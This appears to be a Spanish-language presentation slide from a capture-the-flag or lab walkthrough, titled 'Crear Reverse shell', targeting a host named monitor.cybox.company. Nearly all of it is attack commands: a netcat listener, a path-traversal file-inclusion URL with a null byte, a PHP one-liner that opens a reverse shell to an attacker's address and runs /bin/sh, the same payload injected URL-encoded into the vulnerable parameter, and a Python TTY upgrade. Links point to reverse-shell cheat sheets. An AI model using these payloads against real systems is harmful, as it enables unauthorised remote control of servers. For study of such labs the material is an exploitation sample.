

# Crear Reverse shell
python2 <script> <host> <puerto> <hilos>
nc -lvp <puerto>
monitor.cybox.company/admin/styles.php?f=id&style=../../../../../../tmp/g%00
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/
php -r '$sock=fsockopen("<ip>",<puerto>);exec("/bin/sh -i <&3 >&3 2>&3");'
http://monitor.cybox.company/admin/styles.php?f=php -r '$sock=fsockopen("<ip>",<puerto>);exec("/bin/sh -i <%263 >%263 2>%263");'&style=../../../../../../tmp/g%00
https://ironhackers.es/tutoriales/como-conseguir-tty-totalmente-interactiva/
python -c 'import pty; pty.spawn("/bin/bash")'